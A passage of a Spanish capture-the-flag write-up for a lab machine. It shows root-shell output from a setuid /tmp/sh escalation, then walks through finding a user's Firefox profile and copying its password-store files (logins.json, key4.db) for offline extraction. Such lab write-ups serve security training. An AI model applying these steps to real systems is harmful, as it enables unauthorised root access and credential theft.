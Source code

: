```
-rwsrwxr-x 1 root root 8392 Sep 28 11:29 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@london:/tmp# cat /root/
.bash_history     flag.py           .local/           .root.txt         
.bashrc           flag.pyc          .profile          .selected_editor  
.cache/           .gnupg/           __pycache__/      test.py           
root@london:/tmp# cat /root/.root.txt 
THM{**************}
```

## "Robando la cartera" a Charles
Esta máquina tiene una 3ª misión, hay que conseguir la contraseña de Charles!!!

Como ya somos *root*, accedemos a su directorio y encontramos una carpeta de **firefox**, nos llama la atención, ya que es poco habitual y conocido en otras máquinas (Y puede caerte en una conocida certificación guiño, guiño) donde se puede extraer la contraseña en plano del almacén de contraseña del famoso navegador.
```
root@london:/tmp# cd /home/charles/
root@london:/home/charles# ls -lna
total 24
drw------- 3 1001 1001 4096 Apr 23 22:11 .
drwxr-xr-x 4    0    0 4096 Mar 10  2024 ..
lrwxrwxrwx 1    0    0    9 Apr 23 22:11 .bash_history -> /dev/null
-rw------- 1 1001 1001  220 Mar 10  2024 .bash_logout
-rw------- 1 1001 1001 3771 Mar 10  2024 .bashrc
drw------- 3 1001 1001 4096 Mar 16  2024 .mozilla
-rw------- 1 1001 1001  807 Mar 10  2024 .profile
root@london:/home/charles# 
```

Accedemos al directorio **8k3bf3zp.charles** y transferimos a nuestra máquinas los ficheros *logins.json, cert9.db, cookies.sqlite y key4.db*.
```
root@london:/home/charles# cd .mozilla/
root@london:/home/charles/.mozilla# ls -lna
total 12
drw------- 3 1001 1001 4096 Mar 16  2024 .
drw------- 3 1001 1001 4096 Apr 23 22:11 ..
drw------- 3 1001 1001 4096 Mar 16  2024 firefox
root@london:/home/charles/.mozilla# cd firefox/
root@london:/home/charles/.mozilla/firefox# ls -lna
total 12
drw-------  3 1001 1001 4096 Mar 16  2024 .
drw-------  3 1001 1001 4096 Mar 16  2024 ..
drw------- 16 1001 1000 4096 Mar 16  2024 8k3bf3zp.charles
root@london:/home/charles/.mozilla/firefox# 
root@london:/home/charles/.mozilla/firefox/8k3bf3zp.charles# ls -lna
total 12516
drw------- 16 1001 1000    4096 Mar 16  2024 .
drw-------  3 1001 1001    4096 Mar 16  2024 ..
-rw-------  1 1001 1000      24 Mar 16  2024 addons.json
-rw-------  1 1001 1000    5932 Mar 16  2024 addonStartup.json.lz4
-rw-------  1 1001 1000    2177 Mar 16  2024 AlternateServices.txt
drw-------  2 1001 1000    4096 Mar 16  2024 bookmarkbackups
-rw-------  1 1001 1000     221 Mar 16  2024 broadcast-listeners.json
drw-------  3 1001 1000    4096 Mar 16  2024 browser-extension-data
drw-------  4 1001 1000    4096 Mar 16  2024 cache2
-rw-------  1 1001 1000  229376 Mar 16  2024 cert9.db
-rw-------  1 1001 1000     171 Mar 16  2024 compatibility.ini
-rw-------  1 1001 1000     875 Mar 16  2024 containers.json
-rw-------  1 1001 1000  262144 Mar 16  2024 content-prefs.sqlite
-rw-------  1 1001 1000  524288 Mar 16  2024 cookies.sqlite
```
